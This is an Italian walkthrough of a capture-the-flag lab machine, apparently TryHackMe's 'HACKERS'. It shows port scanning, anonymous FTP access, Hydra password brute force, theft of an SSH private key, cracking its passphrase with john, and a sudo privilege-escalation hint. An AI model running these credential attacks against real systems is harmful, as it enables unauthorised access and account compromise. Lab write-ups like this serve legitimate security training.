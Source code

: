 ## HACKERS

## ENUMERAZIONE
partiamo con uno scan delle porte per cercare porte aperte e i servizi che ci girano sopra.

```bash
nmap HACKERS.thm -sV -sC 
```
molto bene... abbiamo tre porte aperte andiamo sulla ftp che accetta connessioni in anonimo

## FTP
```bash
ftp Anonymous@HACKERS.THM
```
ottimo prendiamo il note che hanno lasciato

```bash
get note
```
il file dice che ci sono 2 utenti con delle password scarse 
```bash
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
```

facciamo un file user
```bash
nano user.txt
```
e aggiungiamo rcampbell gcrawford

cosa fare quando le password fanno schifo???

## BRUTE FORCE

ecco qua il mio programma preferito HYDRA

facciamo il comando 
```bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt HACKERS.THM ftp
```

ecco la password a gratis per noi :)

colleghiamoci in ftp con l'utente trovato 

```bash
ftp gcrawford@HACKERS.THM
```
```bash
ls -a
```
ecco la cartella .ssh
```bash
get id_rsa
```

controllando questa id_rsa ha un altra password....
## JOHN
vabbè risolviamo. crackiamola!!
```bash
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
```
ed ecco la password grazie. colleghiamoci in ssh
```bash
ssh -i id_rsa gcrawford@hackers.thm
```

## PRIVILEGE ESCALATION

vediamo cosa possiamo fare
```bash
sudo -l
```

OTTIMO ABBIAMO GRANDI POSSIBILITà(guardate gtfo.bins)
(hint: guardate i comandi di nano)

